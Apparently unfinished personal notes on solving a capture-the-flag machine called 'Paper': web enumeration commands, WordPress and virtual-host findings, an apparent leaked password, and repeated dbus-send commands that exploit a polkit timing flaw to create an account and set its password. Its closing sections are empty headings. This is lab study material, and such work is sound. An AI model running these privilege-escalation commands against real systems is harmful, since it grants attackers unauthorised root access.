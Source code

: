 # <span style="color:#CC6699">Machine #19 (Active) Paper</span>  


## <span style="color:#CC6699">Notes During Working on the Machine 🧐🤓   

* Found this in the headers of the response of the http and https. Seems interesting  
  ```
  Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
  ```  
* In the body there's this tag that had the following  
  ```html
   <meta name="generator" content="HTML Tidy for HTML5 for Linux version 5.7.28">
  ```  
* What is HTML Tidy and is it relevant? Doesn't seem like it's much  

* Based on Wappalyzer's results the web server is Apache.

* Research fastcgi.
* `gobuster dir -u 10.10.11.143 -x php,cgi,txt,html,md -w ./apache.fuzz.txt -b '404,403,400' -o apache.output.fuzz.txt`
* I think I'm gonna go back to it later.
* The cgi seems like the right path. I think.
* Quoted from Apache's documentation 
  <blockquote>
  It is favored by the PHP developers
  </blockquote>  
  This means that it's a high probability that the backend is written in php.

* I tried an apache exploit for cgi-bin it returned 404 but what was interesting is the `X-Backend-Server` header in the response   
  ```
  HTTP/1.1 404 Not Found
  Date: Fri, 11 Mar 2022 10:41:51 GMT
  Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
  X-Backend-Server: office.paper //I'm thinking this could be a virtual host of some kind
  Content-Length: 196
  Content-Type: text/html; charset=iso-8859-1
  ```  

* Turns out it is some kind of a virtual host and when I opened `http://office.paper` I got another response but the `https` didn't give me anything.
* The website seems to be using REST APIs. What made me think this is the structure of the url `http://office.paper/index.php/2021/06/19/feeling-alone/`  

* So nick is revealing more than he should  
  <img src="./nick.png">  

* So it seems like the website is using *Wordpress* and it's written in *php*.
* `prisonmike` seems like he is the only user that can login. It's not working as the username for the wordpress login
* Seems like the user `nick` exists  
  <img src="./nick_login.png">

* Found this path in source code `http://office.paper/wp-content/uploads/2021/06/Dunder_Mifflin_Inc-150x150.png` for an image it might be useful.  
* Found Wordpress version  
  ```html
  <!-- generator="WordPress/5.2.3" -->
  ```  
* Found this subdomain `http://chat.office.paper/home` and a draft that I found by using an exploit I found for the specific wordpress version we have.  
* Found a bot that I can ask to list files on the system. I can cat the files only.
* `gobuster dns -d office.paper -w SecLists/Discovery/DNS/subdomains-top1million-5000.txt`  

* Queenofblad3s!23

* dwightschrute


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.008s ; kill $!


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string:'$5$9S6xxwc8VPUCYQuU$KrtrLFCbnH8q6uZzOtB7KW7efCn4BMlTJGGAaqSTFi0' string:GoldenEye & sleep 0.008s ; kill $!

* Polkit exploitation that the exact operating system that we have is vulnerable to. It has the exact specifications that allow this exploit to succeed
<br/><br/>

time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1



dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.031s ; kill $!


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string:'$5$7Bmgdl.nOd4aCvZT$aJYFtjdy7Q1k4nj4BYOmkLJwy9LRyHKANHlGwDtXgz2' string:GoldenEye & sleep 0.037s ; kill $!

dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string:'$5$Fv2PqfurMmI879J7$ALSJ.w4KTP.mHrHxM2FYV3ueSipCf/QSfQUlATmWuuB' string:GoldenEye & sleep 0.004s ; kill $!


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$5$DZLSLHAIcAsGYarl$J31FNwHG4ZOf7hu0.LmuX13.y1xl9xz8HnySsPaMaK7' string:GoldenEye & sleep 0.035s ; kill $!

$5$1dKf1P7dhcB2i1QA$PQJrOE013sKIrqLOaWbdPTWpFFW0qhJV2f4ckr0WM28

## <span style="color:#CC6699">How Did I Solve the Machine 😎🥳 


<br/><br/>



## <span style="color:#CC6699">Where I Got Stuck?😡😧  


<br/><br/>



## <span style="color:#CC6699">What Did I learn from this Machine?👀  


<br/><br/>



## <span style="color:#CC6699">Writeups ✍🏽📓   


<br/><br/>




<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->